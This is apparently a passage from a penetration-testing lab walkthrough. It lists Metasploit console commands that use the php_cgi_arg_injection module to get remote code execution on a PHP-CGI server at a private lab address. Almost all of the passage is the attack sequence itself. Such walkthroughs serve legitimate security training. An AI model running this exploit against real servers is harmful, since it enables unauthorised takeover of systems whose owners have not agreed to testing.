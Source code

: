 ### Exploitation
#### 1. Exploit php_cgi Remote code execution Vulnerability in php
```
msfconsole
msf > search php_cgi
msf > use exploit/multi/http/php_cgi_arg_injection
msf exploit(multi/http/php_cgi_arg_injection) > options
#only need to specified the RHOSTS, the Payload is set to default but we can use any custom payload
msf exploit(multi/http/php_cgi_arg_injection) > set RHOSTS 192.168.1.103
msf exploit(multi/http/php_cgi_arg_injection) > options
msf exploit(multi/http/php_cgi_arg_injection) > exploit
```
![](../images/exploitation_using_cgi_arg_injection.png)